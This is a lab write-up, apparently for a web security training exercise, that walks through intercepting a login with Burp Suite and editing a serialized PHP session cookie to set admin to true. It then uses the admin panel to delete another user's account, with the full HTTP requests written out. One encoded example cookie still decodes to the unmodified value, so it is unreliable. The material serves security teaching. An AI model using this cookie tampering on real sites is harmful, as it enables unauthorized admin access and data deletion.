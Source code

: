 # Modifying Serialized Objects

## Level
``APPRENTICE``

## Goal
This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: ``wiener:peter``

## Prerequisites

1. You should have read the sections until this lab.
2. Burp Suite Community/Professional

## Video

[![Modifying Serialized Objects](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=nD1haHhTrIM)

## Start
You should configure your browser and proxy to intercept messages.

Your application looks similar to the following screenshot. Keep in mind that your products can have a different arrangement and of course, it can be different products. The lab environment will be generated automatically and that is the reason why things can be different. Click at the **Account login** link in the upper right of the window.

![Picture 1](images/1-lab/1-pic.png)

In the login form put in the username ``wiener`` and the password ``peter`` and click **Log In**.

![Picture 1](images/1-lab/2-pic.png)

Go to your proxy and look for a request that is similar to the following. Your host name is different to the host name in this request.

```http
POST /login HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Connection: close
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Cookie: session=
Upgrade-Insecure-Requests: 1

username=wiener&password=peter
```

The response to this request contains the ``Set-Cookie`` header with a session cookie. This cookie is also different in your lab.

```http
HTTP/1.1 302 Found
Location: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d; Path=/; Secure; HttpOnly
Connection: close
Content-Length: 0
```

In the response mark the value of the ``Set-Cookie`` header completely (``Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d``) and choose in the context menu **Send to Decoder**. Open the Decoder tab and click the **Decode as** button. In the dropdown field choose **URL** click the **Decode as** next to the new window and choose  **Base64**. Your Decoder tab should look similar to the following screenshot.

![Picture 1](images/1-lab/3-pic.png)

Notice that the ``admin`` attribute contains ``b:0``, this is a boolean value and means ``false``. Change this to ``b:1``. Now, click the **Encode as** button and choose **base64** then click the **Encode as** button again and choose **URL**. Your Decoder should look like this.

![Picture 1](images/1-lab/4-pic.png)

Open the Proxy tab and look for a request like this.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Upgrade-Insecure-Requests: 1
```

Send this request to Burp Repeater and replace the value of the ``Cookie`` header with your created input.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=%54%7a%6f%30%4f%69%4a%56%63%32%56%79%49%6a%6f%79%4f%6e%74%7a%4f%6a%67%36%49%6e%56%7a%5a%58%4a%75%59%57%31%6c%49%6a%74%7a%4f%6a%59%36%49%6e%64%70%5a%57%35%6c%63%69%49%37%63%7a%6f%31%4f%69%4a%68%5a%47%31%70%62%69%49%37%59%6a%6f%77%4f%33%30%3d
Upgrade-Insecure-Requests: 1
```

Open your browser with the lab application and hit the refresh button. Make sure to intercept traffic in your Burp Proxy. In the request replace the value of the ``Cookie`` header with your own code and send it to the application.

![Picture 1](images/1-lab/5-pic.png)

You see in the upper right of your browser window the **Admin panel** link. Click on this link, in the resulting request you have to replace the value of the ``Cookie`` header again.

![Picture 1](images/1-lab/6-pic.png)

You can delete ``carlos`` and this finishes the lab. If you click the **Delete** link you have to replace the value of the ``Cookie`` header again.

![Picture 1](images/1-lab/7-pic.png)
